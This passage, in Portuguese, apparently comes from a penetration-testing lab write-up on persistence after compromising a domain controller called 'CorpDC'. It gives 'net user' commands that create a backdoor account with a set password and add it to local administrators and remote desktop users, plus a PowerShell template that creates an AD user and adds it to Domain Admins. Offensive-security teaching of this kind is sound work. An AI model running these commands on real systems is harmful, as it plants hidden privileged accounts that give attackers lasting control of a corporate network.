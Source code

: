 Como estamos operando diretamente no "CorpDC", a criação dessa conta faz sentido do ponto de vista hierárquico, já que estamos em uma máquina com autoridade elevada no domínio. Se estivéssemos em uma estação comum ou em um servidor com privilégios apenas locais — mesmo com permissões administrativas — o impacto seria limitado, pois a conta criada seria local e não teria influência sobre o domínio. Neste caso, porém, a criação de um usuário no controlador de domínio permite acesso abrangente ao ambiente corporativo, justificando a ação.

```
net user antr4x 'invasao140@' /add
net localgroup Administrators antr4x /add
net localgroup "Remote Desktop Users" antr4x /add
```

![](img/4bf86850b0993cc744ddcce5956302a1.png)

### 11.3.2 Criação da conta no `Active Directory`
```
New-ADUser -Name "<nome exibido do usuario>" -SamAccountName "<nome de login>" -UserPrincipalName "<nome de login no estilo e-mail (user@dominio)>" -GivenName "<Primeiro nome>" -Surname "<Sobrenome>" -Enabled $true -ChangePasswordAtLogon $false -AccountPassword(ConvertTo-SecureString -AsPlainText "<Senha>" -Force)

Enable-AdAccount -Identity "<samAccountName>"

Add-ADGroupMember -Identity "Domain Admins"-Members <samAccountName>
```
